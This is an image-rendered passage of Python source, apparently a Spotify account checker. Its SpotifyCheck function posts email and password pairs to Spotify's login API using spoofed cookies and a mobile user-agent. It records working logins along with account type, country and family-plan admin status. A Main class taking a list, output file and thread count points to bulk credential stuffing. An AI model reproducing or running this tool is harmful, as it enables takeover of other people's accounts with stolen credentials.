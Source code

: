         if account_type == "Premium Family":
            if len(parser.find_all("h3", attrs={"class" : "product-name"})) == 2:
                admin = True
            else:
                admin = False

        return {"account_login" : "success", "Username" : email, "Password" : password ,"AccountType" : account_type, "Country" : country, "Admin" : admin}


    def SpotifyCheck(self, email, password):

        api_request = requests.Session()

        csrf_token = self.getCSRFtoken()

        cookies = {"fb_continue" : "https%3A%2F%2Fwww.spotify.com%2Fid%2Faccount%2Foverview%2F", "sp_landing" : "play.spotify.com%2F", "sp_landingref" : "https%3A%2F%2Fwww.google.com%2F", "user_eligible" : "0", "spot" : "%7B%22t%22%3A1498061345%2C%22m%22%3A%22id%22%2C%22p%22%3Anull%7D", "sp_t" : "ac1439ee6195be76711e73dc0f79f89", "sp_new" : "1", "csrf_token" : csrf_token, "__bon" : "MHwwfC0zMjQyMjQ0ODl8LTEzNjE3NDI4NTM4fDF8MXwxfDE=", "remember" : "false@false.com", "_ga" : "GA1.2.153026989.1498061376", "_gid" : "GA1.2.740264023.1498061376"}
        headers = {"User-Agent" : "Mozilla/5.0 (iPhone; CPU iPhone OS 8_3 like Mac OS X) AppleWebKit/600.1.4 (KHTML, like Gecko) FxiOS/1.0 Mobile/12F69 Safari/600.1.4", "Accept" : "application/json, text/plain", "Content-Type": "application/x-www-form-urlencoded"}
        payload = {"remember" : "false", "username" : email, "password" : password, "csrf_token" : csrf_token}
        
        response = api_request.post("https://accounts.spotify.com/api/login", data=payload, headers=headers, cookies=cookies)

        try:
            if response.json().get("error"):
                return {"account_login" : "error", "Username" : email, "Password" : password}
        except Exception:
            return {"account_login" : "error", "Username" : email, "Password" : password}

        return self.getAccountInfo(api_request, email, password)

class colors:
    @staticmethod
    def info(msg):
        print("[" + Fore.BLUE + "#" + Fore.RESET + "] " + str(msg))
    @staticmethod
    def correct(msg):
        print("[" + Fore.GREEN + "+" + Fore.RESET + "] " + str(msg))
    @staticmethod
    def error(msg):
        print("[" + Fore.RED + "-" + Fore.RESET +  "] " + str(msg))
    @staticmethod
    def warning(msg):
        print("[" + Fore.YELLOW + "!" + Fore.RESET + "] " + str(msg))

class Main(object):
    def __init__(self, list, output, threads, output_type, nothread):
